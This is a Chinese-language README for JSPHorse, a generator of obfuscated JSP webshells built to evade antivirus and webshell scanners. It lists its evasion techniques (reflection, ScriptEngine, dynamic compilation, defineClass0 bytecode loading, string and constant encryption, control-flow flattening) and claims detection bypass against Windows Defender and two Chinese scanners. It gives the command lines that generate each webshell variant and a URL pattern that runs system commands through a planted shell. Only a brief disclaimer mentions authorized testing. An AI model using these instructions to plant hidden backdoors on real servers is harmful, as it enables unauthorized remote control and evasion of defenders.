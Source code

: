 # JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

## 简介

一个JSP免杀Webshell生成器，主要支持普通回显Webshell，也实现了蚁剑的免杀

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

主要的免杀技术：

- 基本的Java反射调用免杀
- ScriptEngine调用JS免杀
- Javac动态编译class免杀
- java.beans.Expression免杀
- native方法defineClass0加载字节码免杀

代码生成方式：

- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

在Github右侧Release页面下载

- 生成标准形式基础Webshell

`java -jar JSPHorse.jar -p your_password`

- 生成蚁剑的免杀Webshell

`java -jar JSPHorse.jar -p your_password --ant`

- 生成Javac动态编译class的Webshell

`java -jar JSPHorse.jar -p your_password --javac`

- 使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

- 使用Expression免杀

`java -jar JSPHorse.jar -p your_password --expr`

- 使用native方法加载字节码

注意：原理是JVM中注册类，不允许重复，所以这种马只能执行一次命令然后失效。但`JSPHorse`从字节码层面构造不同的类，如果想要多次执行只要重复生成多个马即可

`java -jar JSPHorse.jar -p your_password --proxy`

- 任何一种方式加入`-u`参数进行Unicode编码（有时候有奇效）

`java -jar JSPHorse.jar -p your_password --expr -u`

- 如何使用

1. 普通情况：`1.jsp?pwd=your_password&cmd=ipconfig`

2. 蚁剑：正常使用

## 感谢

参考三梦师傅的Webshell：https://github.com/threedr3am/JSP-Webshells

参考天下大木头师傅的Webshell：https://github.com/KpLi0rn/Shell

参考su18师傅的`defineClass0`方式：https://github.com/su18

## 免责申明

未经授权许可使用`JSPHorse`攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的


